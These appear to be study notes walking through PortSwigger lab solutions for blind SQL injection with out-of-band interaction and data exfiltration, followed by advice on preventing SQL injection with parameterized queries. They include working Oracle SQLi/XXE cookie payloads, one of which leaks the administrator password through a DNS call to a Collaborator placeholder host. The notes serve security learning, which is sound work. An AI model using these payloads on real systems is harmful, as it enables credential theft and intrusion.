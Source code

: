 #### Blind SQL injection with out-of-band interaction
- Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the `TrackingId` cookie.
- Modify the `TrackingId` cookie, changing it to a payload that will trigger an interaction with the Collaborator server. For example, you can combine SQL injection with basic [XXE](https://portswigger.net/web-security/xxe) techniques as follows:
  `TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--`
- Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated in the modified `TrackingId` cookie

#### Blind SQL injection with out-of-band data exfiltration
1. Visit the front page of the shop, and use [Burp Suite Professional](https://portswigger.net/burp/pro) to intercept and modify the request containing the `TrackingId` cookie.
2. Modify the `TrackingId` cookie, changing it to a payload that will leak the administrator's password in an interaction with the Collaborator server. 
   For example, you can combine SQL injection with basic [XXE](https://portswigger.net/web-security/xxe) techniques as follows:
   `TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--`
3. Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated in the modified `TrackingId` cookie.
4. Go to the Collaborator tab, and click "Poll now". 
   If you don't see any interactions listed, wait a few seconds and try again, since the server-side query is executed asynchronously.
5. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload. The password of the `administrator` user should appear in the subdomain of the interaction, and you can view this within the Collaborator tab. 
   For DNS interactions, the full domain name that was looked up is shown in the Description tab. For HTTP interactions, the full domain name is shown in the Host header in the Request to Collaborator tab.
6. In the browser, click "My account" to open the login page. 
   Use the password to log in as the `administrator` user

## Prevent SQLi
using prepared statements -->  parameterized queries instead of string concatenation
The following code is vulnerable to SQLi:
because the user input is concatenated directly into the query:
```JavaScript
String query = "SELECT * FROM products WHERE category = '"+ input + "'"; 
Statement statement = connection.createStatement(); 
ResultSet resultSet = statement.executeQuery(query);
```

You can rewrite this code in a way that prevents the user input from interfering with the query structure:
```JavaScript
PreparedStatement statement = connection.prepareStatement("SELECT * FROM products WHERE category = ?"); 
statement.setString(1, input); 
ResultSet resultSet = statement.executeQuery();`
```

You can use parameterized queries:
- for any situation where untrusted input appears as data within the query, 
- including the `WHERE` clause and values in an `INSERT` or `UPDATE` statement.